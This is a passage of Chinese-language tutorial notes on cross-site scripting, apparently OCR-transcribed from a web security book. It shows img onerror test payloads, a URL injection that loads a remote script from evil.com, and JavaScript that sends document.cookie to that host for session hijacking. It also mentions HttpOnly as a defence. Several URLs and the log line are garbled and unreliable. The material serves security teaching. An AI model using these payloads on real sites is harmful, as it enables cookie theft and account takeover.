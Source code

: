 那么我们在test后接入：

`<img src="1" onerror="alert(1)">`

或`<img src"1" onerror="prompt()">`  ,prompt() 方法用于显示可提示用户进行输入的对话框。

这样后端返回的数据就是我们刚才输入的，可以直接在前端渲染。



这样看来存储型的注入危害更大。



#### XSS  Payload

XSS攻击成功后,攻击者能够对用户当前浏览的页面植入恶意脚本,通过恶意脚本,控制
用户的浏览器。

这些用以完成各种具体功能的恶意脚本,被称为“ XSS Payload”
XSS Pay load实际上就是 JavaScript脚本(还可以是 Flash或其他富客户端的脚本),所以
任何 JavaScript脚本能实现的功能, XSS Payload都能做到。
最常见的 XSS Payload,就是通过读取浏览器的 Cookie对象,从而发起“ Cookie劫持”攻击



##### 远程脚本

`http://www,a.com/test.htm?abc"><script src=http://www.evil.com/evil.js></script>`

真正的 XSS Payload写在这个远程脚本中,避免直接在URL的参数里写入大量的 JavaScript
在 evil,js中,可以通过如下代码窃取 Cookie:

```
var img = document.createElement("img");
img.src = "http://www.evil.com/1og?" + escape(document.cookie);
document.body.appendChild(img);
```



这段代码在页面中插入了一张看不见的图片,同时把 document. cookie对象作为参数发送
到远程服务器
事实上,`htt/www.evil.com/log`并不一定要存在,因为这个请求会在远程服务器的web
日志中留下记录
`27.0,0,1--19/0u1/2010:11:30:42+08001"GE?/log? cookie193D1234Hrp/1.1“404288`
这样,就完成了一个最简单的窃取 Cookie的 XSS Payload

得到用户cookie就可以登录了。



Cookie的“ Httponly”标识可以防止“ Cookie劫持”,



Cookie劫持”并非所有的时候都会有效。有的网站可能会在 Set-Cookie时给关键 Cookie
植入 Httponly标识;

有的网站则可能会把 Cookie与客户端IP绑定,从而使得XSS窃取的 Cookie失去意义。



##### 仿造get请求
